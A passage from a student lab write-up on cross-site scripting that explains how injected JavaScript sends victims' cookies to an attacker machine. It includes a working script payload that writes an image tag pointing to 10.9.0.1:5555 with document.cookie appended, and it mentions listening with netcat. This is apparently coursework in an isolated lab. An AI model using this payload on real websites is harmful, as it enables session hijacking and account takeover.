   <img src="images/week10/fig10.png"/>
  <figcaption>Figure 10. Injected JavaScript execution.</figcaption>
</figure>

## Task 3

As in the previous task, only users could see their own browser's cookies. In this task, we, as an attacker, want the cookies to be sent to our machine.

As proposed, we can do this by injecting an HTML tag that will perform a request. In this case, the `<img>` tag can be used since the URL in the `src` field is used to perform an HTTP GET request. So we can write the attacker machine's address with a specific port that the attacker can be listening to. This way, while listening to that port using, for example, `netcat`, the attacker can see requests sent from the users' browser, with their cookies as parameters in the URL.

```html
<script>
	document.write(
		"<img src=http://10.9.0.1:5555?c=" + escape(document.cookie) + " >"
	);
</script>
```

<figure align="center">